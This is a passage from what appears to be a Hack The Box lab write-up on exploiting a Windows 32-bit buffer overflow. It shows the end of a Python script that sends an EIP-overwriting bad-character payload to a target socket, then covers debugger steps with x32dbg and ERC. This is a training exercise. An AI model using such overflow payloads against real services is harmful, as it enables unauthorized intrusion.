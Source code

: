 ```python
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF])
    offset = 469
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + characters
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

badCharacters()
```

![[HTB Solutions/Others/z. images/1f4a80147a53cc5f88f8a0633806c74b_MD5.jpg]]

Within `x32dbg`, students need to click the `Reset` button so that it closes the crashed `win32bof` binary and run it again. Subsequently, students need to run the Python script, to then compare the input in memory to all characters using `ERC`. First, students need to copy the address of `ESP`, which is `0106FB48`:

![[HTB Solutions/Others/z. images/109699cffe4a45a8686908a82145f879_MD5.jpg]]

Then, students need to use the `--compare` option of `ERC` on the `ESP` address and the location of the `.bin` file that contains all characters generated earlier (most importantly not the ones that include `0x00`, `0x0A`, nor `0x0D`; if students are using the same connection to the Windows VM without reset, the file name will be `ByteArray_4.bin` instead of `ByteArray_3.bin`):

Code: powershell

```powershell
ERC --compare 0106FB48 C:\Users\htb-student\Desktop\ByteArray_3.bin
```

![[HTB Solutions/Others/z. images/7bc2bf53f97e285d220baafb6f79031b_MD5.jpg]]
